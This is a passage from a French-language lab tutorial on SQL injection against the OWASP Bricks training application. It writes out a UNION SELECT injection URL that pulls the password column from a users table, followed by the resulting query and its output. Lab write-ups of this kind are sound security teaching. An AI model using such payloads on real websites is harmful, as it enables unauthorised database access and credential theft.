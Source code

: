 La page affichée montre bien notre `'aaaa'`.

![Nos 'aaaa' sont bien réfléchis dans la réponse](images/aaaa.png)

## Extraction de données de la base

Maintenant que l'on voit où l'on peut afficher des résultat de la requête dans la page web. On peut extraire des données de la base.

On remplace notre 'aaaa' par le nom d'une colonne comme `password` et on ajoute la table dans laquelle faire la recherche avec `FROM users`.

L'URL `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+password,NULL,NULL,NULL,NULL,NULL,NULL,NULL+FROM+users+LIMIT+1,1;--`

donne la requête SQL :
```
SELECT * FROM users WHERE idusers=1 UNION SELECT password,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM users LIMIT 1,1;-- LIMIT 1
```

```
+---------+------+-------+----------+------+------+------+------+
| idusers | name | email | password | ua   | ref  | host | lang |
+---------+------+-------+----------+------+------+------+------+
| admin   | NULL | NULL  | NULL     | NULL | NULL | NULL | NULL |
+---------+------+-------+----------+------+------+------+------+
```
